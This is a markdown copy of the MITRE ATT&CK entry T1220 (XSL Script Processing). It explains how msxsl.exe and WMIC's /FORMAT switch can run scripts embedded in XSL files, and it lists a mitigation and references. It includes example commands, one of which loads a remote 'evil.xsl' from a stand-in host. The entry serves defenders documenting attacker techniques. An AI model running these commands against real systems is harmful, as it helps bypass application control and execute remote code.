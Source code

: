 ```yaml
---
alias: T1220
---
```


## T1220

Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL files. Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. (Citation: Microsoft XSLT Script Mar 2017)

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application control. Similar to [Trusted Developer Utilities Proxy Execution](https://attack.mitre.org/techniques/T1127), the Microsoft common line transformation utility binary (msxsl.exe) (Citation: Microsoft msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. (Citation: Penetration Testing Lab MSXSL July 2017) Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. (Citation: Reaqta MSXSL Spearphishing MAR 2018) Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: Penetration Testing Lab MSXSL July 2017)(Citation: XSL Bypass Mar 2019)

* <code>msxsl.exe customers[.]xml script[.]xsl</code>
* <code>msxsl.exe script[.]xsl script[.]xsl</code>
* <code>msxsl.exe script[.]jpeg script[.]jpeg</code>

Another variation of this technique, dubbed “Squiblytwo”, involves using [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) to invoke JScript or VBScript within an XSL file.(Citation: LOLBAS Wmic) This technique can also execute local/remote scripts and, similar to its [Regsvr32](https://attack.mitre.org/techniques/T1218/010)/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) provided they utilize the /FORMAT switch.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: XSL Bypass Mar 2019)(Citation: LOLBAS Wmic)

* Local File: <code>wmic process list /FORMAT:evil[.]xsl</code>
* Remote File: <code>wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”</code>


### Tactic
- [[Defense Evasion]] (TA0005)

### Platforms
- Windows

### Permissions Required

### Mitigations

| ID | Name | Description |
| --- | --- | --- |
| [[Execution Prevention\|M1038]] | Execution Prevention | If msxsl.exe is unnecessary, then block its execution to prevent abuse by adversaries. |

### Sub-techniques


---
### References

- mitre-attack: https://attack.mitre.org/techniques/T1220
- Reaqta MSXSL Spearphishing MAR 2018: https://reaqta.com/2018/03/spear-phishing-campaign-leveraging-msxsl/
- Twitter SquiblyTwo Detection APR 2018: https://twitter.com/dez_/status/986614411711442944
- LOLBAS Wmic: https://lolbas-project.github.io/lolbas/Binaries/Wmic/
- Microsoft msxsl.exe: https://www.microsoft.com/download/details.aspx?id=21714
- Penetration Testing Lab MSXSL July 2017: https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/
- XSL Bypass Mar 2019: https://medium.com/@threathuntingteam/msxsl-exe-and-wmic-exe-a-way-to-proxy-code-execution-8d524f642b75
- Microsoft XSLT Script Mar 2017: https://docs.microsoft.com/dotnet/standard/data/xml/xslt-stylesheet-scripting-using-msxsl-script
